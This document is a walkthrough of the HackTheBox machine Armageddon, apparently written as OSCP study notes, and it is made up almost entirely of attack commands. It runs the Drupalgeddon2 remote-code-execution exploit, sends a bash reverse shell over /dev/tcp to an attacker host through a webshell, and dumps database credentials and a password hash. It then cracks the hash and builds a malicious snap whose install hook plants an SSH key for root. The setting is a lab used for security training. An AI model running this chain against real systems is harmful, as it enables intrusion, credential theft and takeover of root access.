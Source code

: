 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.233
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.233
```

---

## 🏠 Web Enum (Drupal 7.56) [HTTP](HTTP.md)
```bash
curl http://10.10.10.233/robots.txt
curl http://10.10.10.233/CHANGELOG.txt | head
```

---

## ⚡ Exploitation - Drupalgeddon2 (RCE)
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
cd Drupalgeddon2
./drupalgeddon2.rb http://10.10.10.233
```

### 🤖 Webshell Reverse Shell
```bash
# Listener
nc -lnvp 443

# Exploit (via webshell)
curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" http://10.10.10.233/shell.php
```

---

## 🔍 Enumeration (as apache)
```bash
ls -l /home
cat /etc/passwd | grep bash
cat /var/www/html/sites/default/settings.php
```

### 📂 DB Access
```bash
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
select * from users;
```

---

## 🔐 Crack Hash
```bash
echo "$S$DgL2gj..." > drupal.hash
hashcat -m 7900 drupal.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔒 SSH as brucetherealadmin
```bash
ssh brucetherealadmin@10.10.10.233
# password: booboo
```

---

## ⬆️ Privilege Escalation via snap
### ☑ Check sudo perms
```bash
sudo -l
```

### 🚀 Build Malicious Snap (on your own VM)
```bash
snapcraft init
mkdir -p snap/hooks
cat > snap/hooks/install << EOF
#!/bin/bash
mkdir -p /root/.ssh
echo "<your-public-key>" > /root/.ssh/authorized_keys
EOF
chmod +x snap/hooks/install

cat > snap/snapcraft.yaml << EOF
name: armageddon
version: '0.1'
summary: Exploit Snap
confinement: devmode
grade: devel
parts:
  dummy:
    plugin: nil
EOF

snapcraft
```

### 🛫 Transfer + Install on Target
```bash
# Host
sudo python3 -m http.server 80

# Target (as brucetherealadmin)
curl http://10.10.14.7/armageddon_0.1_amd64.snap -o shell.snap
sudo snap install shell.snap --devmode --dangerous
```

---

## ✅ Root Access (via SSH key installed)
```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.10.233
cat /root/root.txt
```

---

## 📋 Notes & References
- Drupal RCE: [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
- Snap Exploitation: GTFOBins + Custom install hook
- DB Creds from: `/var/www/html/sites/default/settings.php`